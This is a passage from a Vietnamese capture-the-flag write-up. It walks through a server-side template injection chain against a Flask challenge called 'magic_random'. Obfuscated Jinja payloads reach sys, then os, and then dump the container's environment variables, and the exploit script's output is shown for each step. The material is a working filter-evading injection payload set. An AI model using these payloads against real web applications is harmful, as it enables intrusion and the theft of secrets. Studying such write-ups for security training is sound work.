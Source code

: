 2. Lấy `sys` qua `typing.__dict__['sys']`:

```powershell
# {{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).__repr__()}}

PS C:\Users\biscuit\Downloads\magic_random> & C:/Users/biscuit/AppData/Local/Microsoft/WindowsApps/python3.10.exe c:/Users/biscuit/Downloads/magic_random/exploit1.py --expr "{{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).__repr__()}}"
preimage: [dnre<ne3_(._a})>)to{)_}d.sil]__s(>_i___])3_52_nlg_to_r_dtcd(._-piieraon__inr3r()_3)_s_d)o_a(r{)_.__3o].b(d()s).n__e(s1_.sn)b[ii_e[(.a).t[.(.sp<((__...s5a_ed2_i_a_]_t_r_3i_cs)_p_p_gg__(l_l
<i>No magic name &lt;module &#39;sys&#39; (built-in)&gt; here, try again!</i>
```

3. Lấy `os` qua `sys.modules['os']`:

```powershell
# {{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[((none.__repr__())[1]).__add__((((3>5)and(2<3)).__repr__()[3]))].__repr__()}}

PS C:\Users\biscuit\Downloads\magic_random> & C:/Users/biscuit/AppData/Local/Microsoft/WindowsApps/python3.10.exe c:/Users/biscuit/Downloads/magic_random/exploit1.py --expr "{{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[((none.__repr__())[1]).__add__((((3>5)and(2<3)).__repr__()[3]))].__repr__()}}"
preimage: _snrlo>.__)_>d.5pe)(_n_.(_o)}i_bes(ii_b_]rd)(a}ca_)s>)et).(5)ldnr3t_e3nns3_s3___.3((({_d.d(t_)__d<_e]ae(.o)i2.)_.r_il__)p_(l)o](pr(de((e_5r_i_mnno_a_{_)o._pd_s_e<a)ro).]ersd_.s]_an.__r([n3]_guip.[[()s[2<.-3t_.pi[____1]a[)(_a31_g(_rl3t))(ci_()2._dgd_(_)sr.[__n__
<i>No magic name &lt;module &#39;os&#39; (frozen)&gt; here, try again!</i>
```

4. Đọc `env`:

```powershell
# {{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[((none.__repr__())[1]).__add__((((3>5)and(2<3)).__repr__()[3]))].environ.__repr__()}}

PS C:\Users\biscuit\Downloads\magic_random> & C:/Users/biscuit/AppData/Local/Microsoft/WindowsApps/python3.10.exe c:/Users/biscuit/Downloads/magic_random/exploit1.py --expr "{{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[((none.__repr__())[1]).__add__((((3>5)and(2<3)).__repr__()[3]))].environ.__repr__()}}"
preimage: e(._.[_e_v-s2s_3g]e_o.e___.)})_.ri)sl3b.ea_))p}l)pa_(__n[_nret3))i_tr(_(tids_.smlra.s)__c__.2..n{3_((__i(>>ep(ipnl)nrs]]d[o_()__r)3())_[5__donnr).2<._)_{o.(a_(rta3_)(31(e__d(]t_i>e_[..(e3_3).s___(pa_[r_(5_oi]n._dpd1e.__b_dn]_r(n)5is]_so_n)(d<(c<dlr(_odad_r__i))[ounggai
<i>No magic name environ({&#39;KUBERNETES_SERVICE_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT&#39;: &#39;tcp://10.100.0.1:443&#39;, &#39;HOSTNAME&#39;: &#39;magic-random-ea5710c0c1194be0&#39;, &#39;PYTHON_PIP_VERSION&#39;: &#39;24.0&#39;, &#39;SHLVL&#39;: &#39;1&#39;, &#39;HOME&#39;: &#39;/app&#39;, &#39;GPG_KEY&#39;: &#39;7169605F62C751356D054A26A821E680E5FA6305&#39;, &#39;PYTHON_GET_PIP_URL&#39;: &#39;https://github.com/pypa/get-pip/raw/dbf0c85f76fb6e1ab42aa672ffca6f0a675d9ee4/public/get-pip.py&#39;, &#39;KUBERNETES_PORT_443_TCP_ADDR&#39;: &#39;10.100.0.1&#39;, &#39;PATH&#39;: &#39;/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#39;, &#39;KUBERNETES_PORT_443_TCP_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT_443_TCP_PROTO&#39;: &#39;tcp&#39;, &#39;LANG&#39;: &#39;C.UTF-8&#39;, &#39;PYTHON_VERSION&#39;: &#39;3.12.2&#39;, &#39;KUBERNETES_SERVICE_PORT_HTTPS&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT_443_TCP&#39;: &#39;tcp://10.100.0.1:443&#39;, &#39;KUBERNETES_SERVICE_HOST&#39;: &#39;10.100.0.1&#39;, &#39;PWD&#39;: &#39;/app&#39;, &#39;PYTHON_GET_PIP_SHA256&#39;: &#39;dfe9fd5c28dc98b5ac17979a953ea550cec37ae1b47a5116007395bfacff2ab9&#39;, &#39;GZCTF_TEAM_ID&#39;: &#39;1250&#39;, &#39;WERKZEUG_SERVER_FD&#39;: &#39;3&#39;}) here, try again!</i>
```
